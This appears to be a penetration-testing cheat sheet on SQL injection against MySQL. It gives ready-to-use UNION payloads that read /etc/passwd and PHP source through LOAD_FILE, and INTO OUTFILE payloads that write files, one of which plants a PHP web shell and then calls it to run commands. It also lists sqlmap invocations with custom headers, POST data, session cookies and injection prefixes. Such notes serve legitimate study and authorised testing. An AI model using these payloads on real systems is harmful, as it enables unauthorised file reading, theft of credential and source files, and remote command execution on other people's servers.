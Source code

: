 The secure_file_priv variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, NULL means we cannot read/write from any directory.


### Reading Files
 
**LOAD_FILE**
````
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
````

### Writing Files

**SELECT INTO OUTFILE**
````
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
````
**Web Shell**
````
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

http://SERVER_IP:PORT/shell.php?0=id
````


## Automate with SQLMAP

### Build Attacks

**cURL Command**
````
$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
````
**GET/POST Requests**
````
$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
$ sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
$ sqlmap 'http://www.example.com/?uid=1*'
````
**Full HTTP Requests**
````
$ sqlmap -r req.txt
````
**Custom SQLMap Requests**
````
$ sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
$ sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
$ sqlmap -u www.target.com --data='id=1' --method PUT
-A/--user-agent
 --random-agent designed to randomly select a User-agent header value from the included database of regular browser values. 
````
**Prefix/Suffix**
````
$ sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
````
This will result in an enclosure of all vector values between the static prefix %')) and the suffix -- -.
